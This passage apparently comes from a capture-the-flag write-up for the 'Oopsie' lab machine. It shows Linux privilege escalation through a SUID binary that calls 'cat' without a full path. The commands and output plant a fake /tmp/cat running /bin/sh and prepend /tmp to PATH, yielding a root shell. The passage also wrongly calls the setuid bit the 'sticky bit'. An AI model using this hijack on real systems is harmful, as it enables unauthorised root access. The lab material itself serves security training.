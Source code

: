 - NOPASSWD: means the user can execute the program without password as root.
- SETENV: means the user can set environment variables running the program as root.

#### SUID

If you see some entry that allows the user to execute a binary as superuser you can check the file flags and permissions by running:

```bash
ls -lisa /usr/bin/bugtracker
264151 12 -rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```
The 's' in the result is the sticky bit in the file permissions.

```bash
file /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

The `setuid` permission is the sticky bit representation in the file command output.

That is a special permission named SUID or Set Owner User ID. SUID allows an alternate user to run an executable with the same permissions as the owner of the file instead of the permissions of the alternate user. That looks promising for privilede escalation.

In our case, the binary 'bugtracker' is owned by root & we can execute it as root since it has SUID set.

If we execute the app, we can see that is asking for input. On invalid input it shows an error showing that it's using `cat` command:

```bash
robert@oopsie:/var/www/html$ bugtracker 12
bugtracker 12

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory
```
Looks like it's not using the full path of the cat tool. We can create a executable named `cat` and put it before in PATH and it will execute that `cat` (/tmp/cat) instead of the real `cat`:

```bash
echo "/bin/sh" > /tmp/cat
robert@oopsie:/var/www/html$ export PATH=/tmp:$PATH
robert@oopsie:/var/www/html$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/var/www/html$ bugtracker	
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

whoami
root
```
